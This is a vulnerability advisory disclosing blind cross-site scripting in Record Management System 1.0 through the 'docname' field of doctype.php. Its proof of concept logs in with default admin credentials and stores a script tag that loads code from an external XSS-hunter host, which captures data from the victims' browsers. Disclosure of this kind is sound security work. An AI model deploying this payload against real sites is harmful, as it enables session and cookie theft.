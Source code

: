 # Record_Management_System-Blind_Cross_Site_Scripting-2
+ **Exploit Title:** Record_Management_System-Blind_Cross_Site_Scripting-2
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/record-management-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/RECORD_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-

## References: 

## Description:
Record Management System 1.0 allows Blind Cross-Site Scripting via parameter 'docname' in "/recordmanagement/main/doctype.php". Record Management System is vulnerable to a blind cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data.
An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the login panel: "http://localhost/recordmanagement/"
+ Login with `admin`:`admin`
+ Go to the Document Type: "http://localhost/recordmanagement/main/doctype.php"
+ Then go to the xsshunter app on https://xsshunter.trufflesecurity.com and login.
+ XSS PAYLOADS -> Copy Payload "Basic <script> Tag Payload"
+ Add Doc Type and Name with payload `"><script src="https://js.rip/b23tmbxf49"></script>`
+ Save and then go to XSS PAYLOAD FIRES on the xsshunter.
+ Check Reports.

![4-1](https://github.com/h4md153v63n/CVEs/assets/5091265/8bfdf785-ec1f-4c13-b744-0a113fb5dc7b)

![4-2](https://github.com/h4md153v63n/CVEs/assets/5091265/3b18e148-3622-4695-88f6-57291836d32c)

![4-3](https://github.com/h4md153v63n/CVEs/assets/5091265/d8c1cf8c-ce5f-46fd-bc21-cfcbfe0a2d93)

![4-4](https://github.com/h4md153v63n/CVEs/assets/5091265/b15fbf45-0d73-45f1-8cc2-7a06ab8b7c78)
